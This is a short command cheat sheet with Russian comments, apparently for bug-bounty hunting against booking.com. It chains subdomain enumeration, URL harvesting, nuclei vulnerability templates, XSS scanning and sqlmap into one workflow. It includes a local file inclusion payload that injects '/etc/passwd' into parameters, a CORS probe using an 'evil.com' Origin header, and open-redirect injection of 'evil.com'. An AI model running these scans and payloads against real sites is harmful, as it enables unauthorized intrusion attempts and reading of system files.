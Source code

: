 🐛💵
* echo booking.com > target.txt
# найдет субдомены tool [subfinder](https://github.com/projectdiscovery/subfinder)
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляет только живые  tool [httpx](https://github.com/projectdiscovery/httpx)
* cat subs.txt | httpx -o aliveSubs.txt
# вытащить все юрл с субдоменов tool [httpx](https://github.com/tomnomnom/waybackurls)
* cat subs.txt | waybackurls | tee urls.txt
# перверяет субдомен тейковер среди живых доменов
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
# template [fuzzing-templates](https://github.com/projectdiscovery/fuzzing-templates) 
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
# проверяет на cve, exposure, vuln template [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) 
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
# из юрл извлекаем те юрл у которых есть параметры и js файлы 
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
# проверяет баги в js файлах 
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
# проверяет xss tool [dalfox](https://github.com/hahwul/dalfox)
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
* dalfox file xss.txt  | tee XSSvulnerable.txt
# проверяет lfi 
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
# проверяет sqli 
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
# проверяет открытое перенаправление 
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
# нуклей фазер проверет все уязвимости 
* nf -d booking.com

